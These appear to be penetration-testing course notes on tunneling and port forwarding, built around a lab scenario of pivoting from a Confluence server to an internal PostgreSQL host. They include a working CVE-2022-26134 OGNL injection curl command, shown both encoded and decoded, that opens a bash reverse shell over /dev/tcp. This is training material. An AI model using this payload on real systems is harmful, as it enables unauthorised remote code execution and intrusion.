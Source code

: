 
**Tunneling:** Encapsulating a protocol within a different protocol
- Can carry a given protocol over an incompatible delivery network OR
- Provides a secure path through an untrusted network.

**Port Forwarding:** Traffic manipulation where we redirect traffic destined for 1 IP & port to another
![[rinetd.png]]


# Port Forwarding

#### Scenario
During an assessment, we discover a Linux web server (CONFLUENCE01) running a vulnerable version of Confluence.
During enumeration, we find that the server has 2 network interfaces:
	1 attached to the WAN in which our attack box (KALI) resides and
	1 attached to an internal subnet
In its config file, we find creds, IP address, and port for a PostgreSQL db instance on a server (PGDATABASE01) in that internal subnet

We want to gain access to that internal db and continue enumerating
As it stands KALI is in the WAN, PGDATABASE01 is in the DMZ, and CONFLUENCE01 is straddling both networks.

CONFLUENCE01 is listening on port 8090 on the WAN side
PGDATABASE01 is listening on port 5432 on the DMZ side - (likely a PostgreSQL server's default port)

#### Breakdown

To gain access to CONFLUENCE01, we'll need to leverage the RCE vuln in the Confluence web app to get a revshell

Researching for the vuln, CVE-2022-26134, we discover a **curl** command on a *Rapid7* blog which claims to exploit the vuln and throw back a shell
```bash
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```
Again, it's extremely important that we don't run scripts when we don't know what they do, so we'll need to examine this command before trusting it.

The verbose curl request is being made to **hxxp://10.0.0.28:8090**, which we assume is the blogpost author's vulnerable Confluence server.
The rest of the url needs to be decoded:
```java
/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}/
```
Resulting in an _OGNL injection_ payload.
- OGNL is Object-Graph Notation Language an expression language commonly used in Java applications.
- OGNL injection can take place when an application handles user input in such a way that it gets passed to the OGNL expression parser.
- Since it's possible to execute Java code within OGNL expressions, OGNL injection can be used to execute arbitrary code.
